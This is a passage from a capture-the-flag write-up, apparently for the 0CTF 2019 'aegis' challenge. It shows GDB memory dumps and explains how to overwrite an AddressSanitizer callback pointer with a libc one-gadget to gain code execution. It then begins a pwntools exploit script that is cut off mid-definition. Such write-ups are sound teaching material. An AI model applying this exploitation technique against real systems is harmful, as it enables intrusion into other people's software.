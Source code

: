 ```
constraints:
  [rsp+0x70] == NULL
```

Now for the overwrite, we will be overwriting the function pointer for the callback function which is called when ASAN detects certain types of issues, with that of the one gadget. Also the really cool thing about doing overwriting this versus something like a got pointer, is that the shadow memory is already set to zero as we can see (callback is at `0x5598f14c6888`, `((0x5598f14c6888 >> 3) + 0x7fff8000) = 0xab39e290d11`):

```
gef➤  p $rdi
$1 = 0x5598f14c6888
gef➤  x/x 0xab39e290d11
0xab39e290d11:  0x00000000
```

So this write will have to parts to it. For the first part our memory will look like this:
```
gef➤  x/18g 0x0000602000000000
0x602000000000: 0x02ffffff00000002  0x2300000120000010
0x602000000010: 0x0000602000000030  0x0000563e9b6d9ab0
0x602000000020: 0x02ffffff00000002  0x4800000120000010
0x602000000030: 0x0000563e9b90ce30  0xbe000000deadbe00
```

We will be editing chunk `1`, which is at `0x602000000010` which will point to `0x602000000030`. We will just write the address of the callback function (this address will be a bss address, so we can calculate it using PIE infoleak):

```
gef➤  x/18g 0x0000602000000000
0x602000000000: 0x02ffffff00000002  0x2300000120000010
0x602000000010: 0x0000602000000030  0x0000563e9b6d9ab0
0x602000000020: 0x02ffffff00000002  0x4800000120000010
0x602000000030: 0x0000563e9c575888  0xbe00000000000000
```

Once we have written that address, then we can just update chunk `0` and we will be able to write to the callback function. After we write the onegadget (calculated using libc infoleak) we can just trigger an ASAN panic, and we will be able to get rce.

### Exploit

putting it all together, we get the following exploit:

```
# This exploit is heavily based off of: https://ray-cp.github.io/archivers/0CTF_2019_PWN_WRITEUP#aegis

from pwn import *

target = process('./aegis')
elf = ELF('aegis')
libc = ELF('libc-2.27.so')
gdb.attach(target)

def createNote(size, payload, ide):
  print target.recvuntil("Choice: ")
  target.sendline('1')
  print target.recvuntil("Size: ")
  target.sendline(str(size))
  print target.recvuntil("Content: ")
  target.send(payload)
  print target.recvuntil("ID: ")
  target.sendline(str(ide))

def showNote(index):
```